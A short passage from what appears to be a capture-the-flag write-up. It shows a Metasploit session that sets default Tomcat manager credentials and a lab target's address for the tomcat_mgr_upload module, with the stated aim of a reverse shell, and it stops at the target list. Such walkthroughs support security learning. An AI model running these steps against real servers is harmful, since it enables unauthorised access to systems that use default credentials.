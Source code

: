<img src="browser-tomcat-mgr.jpg" width=500px>

### REVERSE SHELL

While it's all fine and dandy we have application level access now, we need a
way to get to the OS. Let's try and get a shell!

```
msf auxiliary(scanner/http/tomcat_mgr_login) > use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set PASSWORD s3cret
PASSWORD => s3cret
msf exploit(multi/http/tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/tomcat_mgr_upload) > set TARGETURI /manager
TARGETURI => /manager
msf exploit(multi/http/tomcat_mgr_upload) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Java Universal
   1   Windows Universal
   2   Linux x86

```